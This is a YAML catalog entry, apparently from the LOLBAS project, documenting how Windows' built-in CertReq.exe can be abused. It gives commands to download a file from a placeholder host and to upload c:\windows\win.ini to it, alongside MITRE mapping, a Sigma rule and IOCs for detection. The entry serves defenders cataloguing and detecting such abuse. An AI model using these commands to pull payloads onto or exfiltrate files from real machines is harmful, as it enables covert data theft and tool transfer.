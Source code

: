 ```yaml
---
Name: CertReq.exe
Description: Used for requesting and managing certificates
Author: 'David Middlehurst'
Created: 2020-07-07
Commands:
  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
    Description: Save the response from a HTTP POST to the endpoint https://example.org/ as output.txt in the current directory
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini and show response in terminal
    Description: Send the file c:\windows\win.ini to the endpoint https://example.org/ via HTTP POST
    Usecase: Upload
    Category: Upload
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\certreq.exe
  - Path: C:\Windows\SysWOW64\certreq.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/eb8c9c046b86e7d412bdcc3235693fa1c00f70d6/rules/windows/process_creation/win_susp_certreq_download.yml
  - IOC: certreq creates new files
  - IOC: certreq makes POST requests
Resources:
  - Link: https://dtm.uk/certreq
Acknowledgement:
  - Person: David Middlehurst
    Handle: '@dtmsecurity'
---
```

